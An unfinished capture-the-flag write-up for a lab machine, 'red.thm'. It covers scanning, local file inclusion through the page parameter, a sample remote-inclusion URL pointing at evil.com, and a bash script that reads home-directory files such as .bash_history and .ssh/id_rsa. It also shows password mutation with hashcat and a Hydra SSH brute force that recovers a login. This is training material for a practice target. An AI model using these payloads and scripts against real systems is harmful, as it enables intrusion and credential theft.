

## Debugging Web application Contents
 

## Inspecting HTTP Response Headers and Sitemaps
```bash
$ curl -I red.thm      
HTTP/1.1 302 Found
Date: Redacted
Server: Apache/2.4.41 (Ubuntu)
Location: /index.php?page=home.html
Content-Type: text/html; charset=UTF-8
```
## Service Enumeration
```bash
$ nmap -sC -sV -Pn -vv $(nmap --min-rate=10000 -T4 -p- red.thm | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' '.' | sed 's/,$//') red.thm

Nmap scan report for red.thm (10.10.201.142)
Host is up, received user-set (0.35s latency).
Scanned at 2024-12-21 23:17:57 PST for 20s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:74:1c:e0:f7:86:4d:69:46:f6:5b:4d:be:c3:9f:76 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC1MTQvnXh8VLRlrK8tXP9JEHtHpU13E7cBXa1XFM/TZrXXpffMfJneLQvTtSQcXRUSvq3Z3fHLk4xhM1BEDl+XhlRdt+bHIP4O5Myk8qLX9E1FFpcy3NrEHJhxCCY/SdqrK2ZXyoeld1Ww+uHpP5UBPUQQZNypxYWDNB5K0tbDRU+Hw+p3H3BecZwue1J2bITy6+Y9MdgJKKaVBQXHCpLTOv3A7uznCK6gLEnqHvGoejKgFXsWk8i5LJxJqsHtQ4b+AaLS9QAy3v9EbhSyxAp7Zgcz0t7GFRgc4A5LBFZL0lUc3s++AXVG0hJ9cdVTBl282N1/hF8PG4T6JjhOVX955sEBDER4T6FcCPehqzCrX0cEeKX6y6hZSKnT4ps9kaazx9O4slrraF83O9iooBTtvZ7iGwZKiCwYFOofaIMv+IPuAJJuRT0156NAl6/iSHyUM3vD3AHU8k7OISBkndyAlvYcN/ONGWn4+K/XKxkoXOCW1xk5+0sxdLfMYLk2Vt8=
|   256 fb:84:73:da:6c:fe:b9:19:5a:6c:65:4d:d1:72:3b:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDooZFwx0zdNTNOdTPWqi+z2978Kmd6db0XpL5WDGB9BwKvTYTpweK/dt9UvcprM5zMllXuSs67lPNS53h5jlIE=
|   256 5e:37:75:fc:b3:64:e2:d8:d6:bc:9a:e6:7e:60:4d:3c (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDyWZoVknPK7ItXpqVlgsise5Vaz2N5hstWzoIZfoVDt
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
| http-title: Atlanta - Free business bootstrap template
|_Requested resource was /index.php?page=home.html
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Technologies Stack 


## Directory and Files listing
```bash
$ feroxbuster -u http://red.thm -w /usr/share/seclists/Discovery/Web-Content/big.txt --scan-dir-listings
                                                                                                                                                                                
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://red.thm
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/big.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 📂  Scan Dir Listings     │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────

302      GET    http://red.thm/ => http://red.thm/index.php?page=home.html
301      GET    http://red.thm/assets => http://red.thm/assets/
200      GET    http://red.thm/assets/js/headroom.min.js
200      GET    http://red.thm/assets/js/jquery.headroom.min.js
200      GET    http://red.thm/assets/js/jquery.cslider.js
200      GET    http://red.thm/assets/images/favicon.png
200      GET    http://red.thm/assets/css/da-slider.css
200      GET    http://red.thm/assets/css/font-awesome.min.css
200      GET    http://red.thm/assets/js/jquery.isotope.min.js
200      GET    http://red.thm/assets/images/2.jpg
200      GET    http://red.thm/assets/fonts/fontawesome.otf
200      GET    http://red.thm/assets/fonts/fontawesome-webfont.ttf
200      GET    http://red.thm/assets/fonts/fontawesome-webfont.eot
200      GET    http://red.thm/assets/images/person_2.png
200      GET    http://red.thm/assets/js/modernizr-latest.js
200      GET    http://red.thm/assets/images/person_1.png
200      GET    http://red.thm/assets/images/bg_header.jpg
200      GET    http://red.thm/assets/images/arrows.png
200      GET    http://red.thm/assets/css/isotope.css
200      GET    http://red.thm/assets/css/style.css
200      GET    http://red.thm/assets/css/bootstrap-theme.css
200      GET    http://red.thm/assets/images/logo.png
200      GET    http://red.thm/assets/js/html5shiv.js
200      GET    http://red.thm/assets/js/respond.min.js
200      GET    http://red.thm/assets/js/custom.js
200      GET    http://red.thm/assets/js/google-map.js
200      GET    http://red.thm/assets/fonts/fontawesome-webfont.woff
200      GET    http://red.thm/assets/images/person_3.png
200      GET    http://red.thm/assets/images/logo1.png
200      GET    http://red.thm/assets/css/bootstrap.min.css
200      GET    http://red.thm/assets/images/about.jpg
301      GET    http://red.thm/assets/js => http://red.thm/assets/js/
200      GET    http://red.thm/assets/images/1.jpg
200      GET    http://red.thm/assets/fonts/fontawesome-webfont.svg
200      GET    http://red.thm/assets/images/bg_header%20-%20copy.jpg
301      GET    http://red.thm/assets/js/images => http://red.thm/assets/js/images/
301      GET    http://red.thm/assets/fonts => http://red.thm/assets/fonts/
301      GET    http://red.thm/assets/images/portfolio => http://red.thm/assets/images/portfolio/
301      GET    http://red.thm/assets/css => http://red.thm/assets/css/
301      GET    http://red.thm/assets/js/fancybox => http://red.thm/assets/js/fancybox/
301      GET    http://red.thm/assets/images => http://red.thm/assets/images/

```
## Common Vulnerability 
1. Local File Inclusion (LFI)

- Description: The page parameter could allow the inclusion of files from the local filesystem.
    Risk:
    - Attackers may read sensitive files like /etc/passwd or application configuration files.
        Can lead to code execution if the included file contains malicious PHP code.
        - Testing:
            - Try including /etc/passwd:
            `http://red.thm/index.php?page=../../../../etc/passwd`
            - Include a log file with user-controlled input: 
            `http://red.thm/index.php?page=../../../../var/log/apache2/access.log`

2. Remote File Inclusion (RFI)

- Description: If the application allows remote file paths, attackers may include files hosted on a malicious server.
    Risk:
    - Remote code execution by including malicious scripts.
        - Testing:
            - Inject a remote URL:
            `http://red.thm/index.php?page=http://evil.com/malicious.txt`  

3. Directory Traversal

- Description: The page parameter might allow directory traversal attacks to access files outside the intended directory.
    - Risk:
        Unauthorized access to files and sensitive information disclosure.
        - Testing:
            - Attempt to traverse directories: 
            `http://red.thm/index.php?page=../../../../var/www/html/config.php`     

 

4. Cross-Site Scripting (XSS)

- Description: If the page parameter reflects user input into the webpage, it might be vulnerable to XSS.
    - Risk:
        - Stealing cookies or session tokens.
        - Defacing the website.
    - Testing:
        - Inject a script: `http://red.thm/index.php?page=<script>alert('XSS')</script>`   

 

5. Parameter Tampering

- Description: Attackers might tamper with the page parameter to access unintended resources or bypass authentication.
    - Risk:
        - Privilege escalation.
        - Unauthorized access to hidden files.
    - Testing:
        - Try accessing restricted files: `http://red.thm/index.php?page=admin.html`


## Vulnerability Identification
"We tested the website for Local File Inclusion (LFI) vulnerabilities by analyzing the `page` parameter and successfully confirmed that it is indeed vulnerable to LFI."
```bash
$ python3 lfimap.py -U "http://red.thm/index.php?page=testme" -a -v                              
[i] Session information is not provided. LFImap might have troubles finding vulnerabilities if testing endpoint requires authentication.

[i] Testing GET 'page' parameter...

[i] Testing misc issues using heuristics...
[i] Testing for XSS...
[i] Testing for CRLF...
[i] Testing for error-based info leak...
[i] Testing for open redirect...
[i] Testing with filter wrapper...
[+] LFI -> 'http://red.thm/index.php?page=php%3A%2F%2Ffilter%2Fresource%3D%2Fetc%2Fpasswd'
[i] Testing with input wrapper...
[i] Testing with data wrapper...
[i] Testing with expect wrapper...
[i] Testing with file wrapper...
[+] LFI -> 'http://red.thm/index.php?page=file%3A%2F%2F%2Fetc%2Fpasswd'
[i] Testing remote file inclusion...
[i] Trying to include internet-hosted file...
...

----------------------------------------
LFImap finished with execution.
Parameters tested: 1
Requests sent: 41
Vulnerabilities found: 2
```
```bash
$ curl http://red.thm/index.php?page=php%3A%2F%2Ffilter%2Fresource%3D%2Fetc%2Fpasswd -o passwd.txt 

$ cat passwd.txt | grep 100 
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
blue:x:1000:1000:blue:/home/blue:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
red:x:1001:1001::/home/red:/bin/bash

```

## Post Enumeration (Fuzzing) 
"So, while digging around, I thought, why not create a tool that grabs a list of important files from the home directories of both the red and blue users and checks for any juicy information?"

> lfi-fuzzer.sh
```bash
#!/bin/bash

# Target URL with vulnerable parameter
BASE_URL="http://red.thm/index.php?page="
ENCODED_PAYLOAD="php://filter/resource="

# check usernames
USERNAMES=("blue" "red")

# Found in "/usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt"
IMPORTANT_FILES=(
    ".bashrc"
    ".bash_history"
    ".profile"
    ".ssh/authorized_keys"
    ".ssh/id_rsa"
    ".ssh/id_rsa.pub"
    ".ssh/config"
    ".gitconfig"
    ".env"
)

# scan files in a user's home directory
scan_home_directory() {
    local username=$1
    echo "[*] Scanning /home/$username for important files..."

    # loop through each important file to check its existence
    for file in "${IMPORTANT_FILES[@]}"; do
        target="${ENCODED_PAYLOAD}/home/$username/$file"
        
        # make the request and check if the file exists
        response=$(curl -s "${BASE_URL}${target}")
        if [[ -n $response && ! $response =~ "No such file" ]]; then
            echo "[+] Found: /home/$username/$file"
        else
            echo "[-] Not Found: /home/$username/$file"
        fi
    done
}

# scan all usernames
for user in "${USERNAMES[@]}"; do
    scan_home_directory "$user"
done
```
### Result
```bash
$ bash lfi-fuzzer.sh                                                                       
[*] Scanning /home/blue for important files...
[+] Found: /home/blue/.bashrc
[+] Found: /home/blue/.bash_history
[+] Found: /home/blue/.profile
[-] Not Found: /home/blue/.ssh/authorized_keys
[-] Not Found: /home/blue/.ssh/id_rsa
[-] Not Found: /home/blue/.ssh/id_rsa.pub
[-] Not Found: /home/blue/.ssh/config
[-] Not Found: /home/blue/.gitconfig
[-] Not Found: /home/blue/.env
[*] Scanning /home/red for important files...
[+] Found: /home/red/.bashrc
[-] Not Found: /home/red/.bash_history
[+] Found: /home/red/.profile
[-] Not Found: /home/red/.ssh/authorized_keys
[-] Not Found: /home/red/.ssh/id_rsa
[-] Not Found: /home/red/.ssh/id_rsa.pub
[-] Not Found: /home/red/.ssh/config
[-] Not Found: /home/red/.gitconfig
[-] Not Found: /home/red/.env
```
```bash
$ curl http://red.thm/index.php?page=php://filter/resource=/home/blue/.bash_history -o -
echo "Red rules"
cd
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
cat passlist.txt
rm passlist.txt
sudo apt-get remove hashcat -y
```
Hashcat is used temporarily to generate possible password candidates before being uninstalled for cleanup purposes.
```bash
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
```
- `--stdout`: This option outputs the generated wordlist to the standard output (terminal) instead of attempting to crack a hash.
- `.reminder`: This is likely a file that contains some base wordlist, which Hashcat will use to generate password combinations.
- `-r /usr/share/hashcat/rules/best64.rule`: This applies a set of best64 rules from Hashcat's rule file. These rules modify the input wordlist to create variations like adding numbers, symbols, or common password patterns.
- `> passlist.txt`: The output (the generated password list) is redirected to a file named passlist.txt.
```bash
$ curl http://red.thm/index.php?page=php://filter/resource=/home/blue/.reminder -o -    

sup3r_p@s$w0rd!

```
## Password Cracking 
```bash
# file creation and append strings
$ touch pass.lst && echo 'sup3r_p@s$w0rd!' > pass.lst 

# Generating possible password list 
$ hashcat --stdout pass.lst -r /usr/share/hashcat/rules/best64.rule > passlist.txt

# Generated length 
$ cat passlist.txt | wc -l 
77 

# results
$ cat passlist.txt | head -20
sup3r_p@s$w0rd!
!dr0w$s@p_r3pus
SUP3R_P@S$W0RD!
Sup3r_p@s$w0rd!
sup3r_p@s$w0rd!0
sup3r_p@s$w0rd!1
sup3r_p@s$w0rd!2
sup3r_p@s$w0rd!3
sup3r_p@s$w0rd!4
sup3r_p@s$w0rd!5
sup3r_p@s$w0rd!6
sup3r_p@s$w0rd!7
sup3r_p@s$w0rd!8
sup3r_p@s$w0rd!9
sup3r_p@s$w0rd!00
sup3r_p@s$w0rd!01
sup3r_p@s$w0rd!02
sup3r_p@s$w0rd!11
sup3r_p@s$w0rd!12
sup3r_p@s$w0rd!13
```
## Hydra ssh 
```bash
$ hydra -l blue -P passlist.txt  -t 1  red.thm ssh         
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

...
[DATA] max 1 task per 1 server, overall 1 task, 77 login tries (l:1/p:77), ~77 tries per task
[DATA] attacking ssh://red.thm:22/
[STATUS] 16.00 tries/min, 16 tries in 00:01h, 61 to do in 00:04h, 1 active
[22][ssh] host: red.thm   login: blue   password: sup3r_p@s$w0rd!123
1 of 1 target successfully completed, 1 valid password found
```
## Initial access  
```bash
# ssh creds 
username: blue 
password: sup3r_p@s$w0rd!123 
```
```bash
$ ssh blue@red.thm            
The authenticity of host 'red.thm (10.10.201.142)' can't be established.
ED25519 key fingerprint is SHA256:Jw5VYW4+TkPGUq5z4MEIujkfaV/jzH5rIHM6bxyug/Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'red.thm' (ED25519) to the list of known hosts.
blue@red.thm's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-124-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System load:  0.24              Processes:             146
  Usage of /:   64.8% of 8.87GB   Users logged in:       0
  Memory usage: 9%                IPv4 address for eth0: 10.10.201.142
  Swap usage:   0%


55 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


6 updates could not be installed automatically. For more details,
see /var/log/unattended-upgrades/unattended-upgrades.log

*** System restart required ***
Last login: Mon Apr 24 22:18:08 2023 from 10.13.4.71

blue@red:~$ Oh let me guess, you are going to go to the /tmp or /dev/shm directory to run linpeas? Yawn
Say Bye Bye to your Shell Blue and that password
Connection to red.thm closed by remote host.
Connection to red.thm closed.
```
"After successfully logging in with the credentials obtained from Hydra, I was automatically logged out, and those passwords couldn't be reused after a few seconds. Before being kicked out, they left a clue: 'Oh, let me guess, you're going to head to the /tmp or /dev/shm directory to run linpeas?'"

## Interpretation of the clue

"Its likely hinting that after logging in, they expect you to use linpeas from these directories to gather information about the system." 

- Files in `/tmp` can sometimes have less restrictive permissions, making them easier to manipulate.
- `/dev/shm` This is a temporary filesystem (stored in memory) that is often used for sharing data between processes.
 
# Undone